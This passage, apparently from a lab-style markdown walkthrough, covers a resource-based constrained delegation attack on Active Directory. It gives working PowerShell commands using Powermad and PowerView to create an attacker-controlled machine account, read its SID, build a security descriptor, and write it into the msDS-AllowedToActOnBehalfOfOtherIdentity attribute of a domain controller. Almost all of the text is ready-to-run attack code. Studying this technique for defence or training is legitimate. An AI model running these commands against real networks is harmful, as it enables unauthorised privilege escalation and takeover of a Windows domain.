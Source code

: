 Use Powermad to create a new attacker-controlled computer account:

```powershell
New-MachineAccount -MachineAccount evilcomp -Password $(ConvertTo-SecureString 'password' -AsPlainText -Force)
```

---

### 3. Get the SID of the New Computer Account

Retrieve the **SID** of the newly created computer using PowerView:

```powershell
$ComputerSid = Get-DomainComputer evilcomp -Properties objectsid | Select -Expand objectsid
```

---

### 4. Create a New Security Descriptor

Build a generic **Access Control Entry (ACE)** using the attacker computer SID:

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

---

### 5. Set the `msDS-AllowedToActOnBehalfOfOtherIdentity` Attribute

Apply the new security descriptor to the target computer (`DC01-FURIOUS5`) using PowerView:

```powershell
Get-DomainComputer DC01-FURIOUS5 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

<img src="Imgs/image3.png" alt="Setting msDS-AllowedToActOnBehalfOfOtherIdentity">

---